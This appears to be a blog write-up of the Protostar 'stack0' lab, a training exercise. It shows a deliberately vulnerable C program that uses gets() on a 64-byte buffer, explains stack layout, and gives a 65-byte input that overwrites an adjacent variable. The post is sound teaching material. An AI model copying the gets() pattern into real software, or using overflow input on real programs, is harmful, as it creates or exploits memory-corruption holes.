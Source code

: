 ```yaml
---
author: alvaro
comments: true
layout: post
title: Stack 0 Protostart
categories:
- Archive
tags:
- security
---
```


I have started to play with the protostar VM along with nebula. This VM presents the concept about the memory issues as buffer overflows in stack and in the heap, format string and so on.

The first exercise present a buffer overflow. The code is as follows.

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

To resolve this puzzle we should have clear how is carried out the flow execution of a program. In the C language the stack is a structure that is used to pass argument to the function, save return address and also to save the local variables. So in the following C code the stack would be.


```C

void func( int a, int b)
{
	int c;
	return;
}
```

```
The stack grows downwards

+————————————+
| argument b |  The local variables are saved in reverse order.
+————————————+
| argument a |
+————————————+
| return     |  The return address is saved automatically by the 
| address    |  call instruction in assembly.
+————————————+
|            |  The base pointer register. Is used to reference 
|    EBP     |  inside the function without calculate offset 
|            |  respect with the ESP.
+————————————+
|  local c   |
+————————————+
```

The stack in the main function is.

```
+————————————+
| argument 2 |  
+————————————+
| argument 1 |
+————————————+
| return     |  
| address    |  
+————————————+
|            |   
|    EBP     |   
|            |  
+————————————+
|  modified  |
+————————————+
|  buffer    |
+————————————+
```

So if we are able to write more than 64 bytes in buffer we can overwrite the value in `modified`. But Are we able to achieve that? The answers is yes due to the code is using an insecure function `gets`. It does not limit the input so we are able to write more than 64 bytes. So with the following we can change the value.

```bash
$  printf "%065x" 1
00000000000000000000000000000000000000000000000000000000000000001
$ ./stack0
00000000000000000000000000000000000000000000000000000000000000001
you have changed the 'modified' variable

```

If you want to augment your knowledge about stack and how to exploit it I encourage to read the article [Smash the Stack For Fun And Profit by Aleph One](http://q.hscott.net/reads/stack_smashing.pdf)

{% include twitter_plug.html %}
